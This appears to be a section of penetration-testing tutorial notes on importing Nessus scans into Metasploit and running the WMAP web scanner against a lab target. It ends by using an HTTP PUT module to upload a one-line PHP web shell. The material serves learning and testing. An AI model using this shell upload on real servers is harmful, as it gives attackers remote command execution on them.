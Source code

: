 <a id=4.2></a>
## Using Nessus

Nessus is a proprietary vulnerability scanner developed by Tenable that allows pentesters
to automatically scan vulnerabilities on a server or more. It does so by fingerprinting a host
and its services and trying comparing the service version with the Tenable database.

We can export the Nessus scan to the Metasploit Console database.

We will use the Nessus Essentials that will allow us to can upto 16 different IPs.

```bash
$ systemctl start postgresql && msfdb init && msfconsole
msf6 > db_import
# this will show all the compatible tools we can import data from to the msfconsole.
msf6 > db_import nessus_scan.nessus
msf6 > vulns
# this will show the entire db of vulns.
msf6 > vulns -p [PORT]
# this will display vulnerabiliites associated with the given port(s).
```

<a id=4.3></a>
## Using WMAP

WMAP is a Metasploit plugin that was developed to do web scanning and vulnerability scanning
on webpages.

It can be used as its own standalone tool, but since its very old, it's not used that much nowadays.
It's been replaced by OWASP ZAP, Nikto and other tools.

Nevertheless, it is directly implemented within the MSFConsole, so we can use it there.

```bash
$ systemctl start postgresql && msfdb init && msfconsole
msf6 > workspace -a WMAP_Enum
msf6 > load wmap
msf6 > setg RHOST [TARGET]
msf6 > setg RHOSTS [TARGET]
msf6 > wmap_sites -a [IP]
# add a site to the database. this will not exploit anything, just store the URL.
msf6 > wmap_targets -t [WEBSITE_ADDRESS]
# when we run the wmap plugin, this sites will be scanned.
msf6 > wmap_run -t
# this will test the target site to check which modules should be used.
msf6 > wmap_run -e
# this will start the scan. what wmap does it practically simple. it runs all auxiliary modules
# available to scan a certain website. thats all it does really.
msf6 > wmap_vulns
# this will display all the vulnerabilities that wmap found.
# on the msf3 machine the PUT method is available. lets try it.
msf6 > use auxiliary/scanner/http/http_put
msf6 auxiliary(scanner/http/http_put) > set PATH /data/
msf6 auxiliary(scanner/http/http_put) > run
msf6 auxiliary(scanner/http/http_put) > set FILEDATA "<?php system($_GET['cmd']); ?>"
msf6 auxiliary(scanner/http/http_put) > set FILENAME shell.php
msf6 auxiliary(scanner/http/http_put) > run
```
